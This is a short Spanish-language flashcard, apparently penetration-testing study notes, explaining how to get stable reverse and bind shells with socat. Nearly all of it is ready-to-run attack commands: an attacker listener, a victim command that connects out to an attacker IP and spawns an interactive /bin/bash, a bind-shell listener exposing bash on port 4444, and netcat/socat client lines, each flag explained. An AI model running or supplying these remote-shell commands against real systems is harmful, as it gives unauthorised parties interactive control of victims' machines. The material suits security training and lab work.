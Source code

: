 **Flashcard: Socat – Reverse Shell y Bind Shell (técnica estable)**

---

**Reverse Shell (atacante escucha, víctima conecta)**

**Atacante (listener interactivo con pty – recomendado)**

```bash
socat -d -d TCP-LISTEN:5555,reuseaddr,fork FILE:`tty`,raw,echo=0
```

* `TCP-LISTEN:5555` → escucha en puerto 5555.
* `reuseaddr` → reutiliza puerto inmediatamente.
* `fork` → permite múltiples conexiones.
* `FILE:\`tty\`,raw,echo=0\` → enlaza socket a tu terminal actual en modo raw (interactivo).

**Víctima**

```bash
socat TCP:10.2.2.22:5555 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

* `TCP:<IP_ATACANTE>:<PUERTO>` → conecta al atacante.
* `EXEC:/bin/bash` → lanza bash.
* `pty` → asigna pseudo-terminal para estabilidad.
* `stderr` → redirige errores al canal.
* `setsid` → nueva sesión de terminal.
* `sigint` → permite enviar CTRL+C.
* `sane` → configura terminal a estado usable.

---

**Bind Shell (víctima escucha, atacante conecta)**

**Víctima (listener)**

```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

* Escucha en puerto 4444.
* Ejecuta bash con pseudo-terminal y manejo de señales.

**Atacante (cliente)**

```bash
nc <IP_VICTIMA> 4444
```

o también:

```bash
socat TCP:<IP_VICTIMA>:4444 -
```

---

**Notas clave**

* Puertos <1024 requieren root.
* `pty` es fundamental para que la shell sea interactiva.
* En reverse shell, el listener **no** ejecuta bash, solo redirige al terminal local.
* En bind shell, quien ejecuta bash es el listener (víctima).
* `socat` produce shells más estables que `netcat`.
